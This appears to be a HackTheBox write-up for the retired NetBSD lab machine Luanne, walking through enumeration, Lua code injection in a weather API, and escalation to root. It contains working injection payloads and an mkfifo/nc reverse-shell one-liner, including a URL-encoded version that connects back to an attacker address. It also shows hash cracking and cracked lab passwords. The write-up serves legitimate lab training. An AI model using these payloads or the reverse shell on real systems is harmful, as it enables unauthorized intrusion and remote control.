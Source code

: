 ```yaml
---
title: HackTheBox - Luanne Writeup
subtitle: Here's my writeup for the RETIRED machine Luanne, Which is an Easy NetBSD machine!
summary: Here's my writeup for the RETIRED machine Luanne, Which is an Easy NetBSD machine!
date: '2021-03-06'
draft: false
authors: ['elleuch']
categories: ['HackTheBox', 'Easy']
tags: ['HackThebox', 'Easy','NetBSD']
image: /assets/img/htb-luanne/featured.png
render_with_liquid: false
---
```


# Information Gathering
---
## Nmap scan  
```bash
sudo nmap -sC -sV 10.10.10.218 -v
```
<img src="/assets/img/htb-luanne/nmap.png">

As we can see above, We have 3 PORTS open:
- Port 22 running OpenSSH 8.0 ; Recent version, no need waste time on it
- Port 80 running nginx ; robots.txt --> /weather
- Port 9001 running Medusa httpd 1.12 ; If we were on linux i think this should be something to look at
> Skipping the gobuster part, it will only show us robots.txt. I do prefer Dirb when it comes to directory bruteforcing

## Dirb scan


> You can clone the SecLists repo from here https://github.com/danielmiessler/SecLists

We already got  **/weather/** from the nmap results, let's see enum more
```bash
dirb -R http://10.10.10.218/weather/ /opt/SecLists/Discovery/Web-Content/raft-small-directories.txt 
```
<img src="/assets/img/htb-luanne/dirb.png">

---

# Foothold
From our previous scans we were able to find
```url
http://10.10.10.218/weather/forecast/
```
<img src="/assets/img/htb-luanne/forecast.png">
Let's try it as a GET param
<img src="/assets/img/htb-luanne/get.png">
Adding a < ' > causes an error
<img src="/assets/img/htb-luanne/luaerror.png">

> Skipping the SQL Injection part as it got me nothing 

Let's now try if we have any potential code injection.
Basically, The idea is to end the current lua command and inject.
Another think to note for lua a comment starts anywhere with a double hyphen ( -- ) and runs until the end of the line.

Let's first try this payload
```url
/weather/forecast?city=London');print("\nhi")--
```
<img src="/assets/img/htb-luanne/print.png">
That worked! Let's try if we can use system commands

```url
/weather/forecast?city=London');print("\n");os.execute("id")--
```
<img src="/assets/img/htb-luanne/id.png">

That worked aswell! Let's now get a reverse shell
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ip port >/tmp/f
```
Final url encoded payload:
```url
/weather/forecast?city=%4c%6f%6e%64%6f%6e%27%29%3b%70%72%69%6e%74%28%22%5c%6e%22%29%3b%6f%73%2e%65%78%65%63%75%74%65%28%22%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%2f%62%69%6e%2f%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%30%2e%31%30%2e%31%34%2e%33%39%20%31%32%33%34%20%3e%2f%74%6d%70%2f%66%22%29%2d%2d
```
Let's execute it and get a shell on the box
<img src="/assets/img/htb-luanne/foothold.png">

---
# User PrivEsc

We can see that we have the default  **.htpasswd** file which can contain potential passwords
<img src="/assets/img/htb-luanne/pass.png">
Let's see what we got there
<img src="/assets/img/htb-luanne/webapi.png">
```bash
echo "$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0" > hash ; john hash -w=/opt/rockyou.txt
```

And we cracked it!
<img src="/assets/img/htb-luanne/best.png">

Let's start by viewing the running processes
> You need to specify the w tag to view the whole command

<img src="/assets/img/htb-luanne/mich.png">
We can see that the user **r.michaels** is running a local server at port 3001! Let's exploit this to get his private SSH key!

```bash
curl http://127.0.0.1:3001/~r.michaels/id_rsa
```
But we get 401 Unauthorized page!

<img src="/assets/img/htb-luanne/unauth.png">
Let's try the credentials that we got earlier

```bash
curl http://127.0.0.1:3001/~r.michaels/id_rsa --user webapi_user:iamthebest
```
<img src="/assets/img/htb-luanne/ssh.png">
And it worked! Let's login to the user

<img src="/assets/img/htb-luanne/user.png">

And we grab that user flag!

# Root PrivEsc
An interesting backups file which contains an encrypted tar.gz file

<img src="/assets/img/htb-luanne/back.png">

Because we're on an NetBSD box, we're gonna use netpgp to decrypt then extract its content

```bash
netpgp --decrypt devel_backup-2020-09-16.tar.gz.enc --output=backup.tar.gz
```
<img src="/assets/img/htb-luanne/tar.png">

Let's check that .htpasswd file!
<img src="/assets/img/htb-luanne/root.png">
`webapi_user:$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.`

Let's crack this password with john!

<img src="/assets/img/htb-luanne/pass_root.png">

`littlebear`

Let's try to switch to the root user with this password!

> https://www.vultr.com/docs/introduction-to-doas-on-NetBSD

```bash
doas su
```
<img src="/assets/img/htb-luanne/roott.png">

And we rooted the box!

---

# Bonus Section

Let's see what caused the lua injection!

```bash
cat /home/r.michaels/devel/webapi/weather.lua
```
Going through the code we can see the injection point!

```lua
httpd.write('"error": "unknown city: ' .. city .. '"}')
```
basically what we have done is
```lua
httpd.write('"error": "unknown city: hi');os.execute("id") -- '"}')
```
To avoid this kind of injection, we should validate and sanitize the "city" input. Scanning the city variable for escape characters and special symbols, making a blacklist for any suspicious word {os,execute,print,...} 
Or just by removing the '.. city ..' part!
